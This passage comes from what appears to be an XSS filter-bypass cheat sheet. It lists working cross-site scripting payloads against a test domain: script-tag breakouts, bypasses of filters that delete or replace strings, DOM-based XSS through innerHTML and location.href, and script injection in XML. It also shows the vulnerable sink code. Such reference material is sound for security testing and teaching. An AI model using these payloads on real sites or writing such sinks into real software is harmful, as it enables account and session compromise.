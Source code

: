 ```html
<div>`-alert(1)</script><script>`</div>
<div>`-alert(1)</script><script>`</div>
```

### If you have string operations

When some strings are removed or replaced, intervening strings do not block.

#### When deleted

https://vulnerabledoma.in/bypass/text?type=6&q=%3Csvg%20o%3Cscript%3Enload=alert(1)%3E

```html
<svg o<script>nload=alert(1)>
↓
<svg onload=alert(1)>
```

#### When replaced

https://vulnerabledoma.in/bypass/text?type=7&q=%3Cscript%3E/%26/-alert(1)%3C/script%3E

```html
<script>/&/-alert(1)</script>
↓
<script>/&amp;/-alert(1)</script>
```

### DOM based XSS other than request string

https://vulnerabledoma.in/bypass/dom_innerhtml#%3Cimg%20src=x%20onerror=alert(1)%3E

```html
<body>
<script>
hash=location.hash.slice(1);
document.body.innerHTML=decodeURIComponent(hash);
</script>
</body>
```

https://vulnerabledoma.in/bypass/dom_redirect#javascript:alert(1)

```html
<script>
location.href=decodeURIComponent(location.hash.slice(1));
</script>
```

### XSS in XML pages

https://vulnerabledoma.in/bypass/xml?q=%3Cscript%20xmlns=%22http://www.w3.org/1999/xhtml%22%3Ealert(1)%3C/script%3E

```xml
<?xml version="1.0"?><html><script xmlns="http://www.w3.org/1999/xhtml">alert(1)</script></html>
```
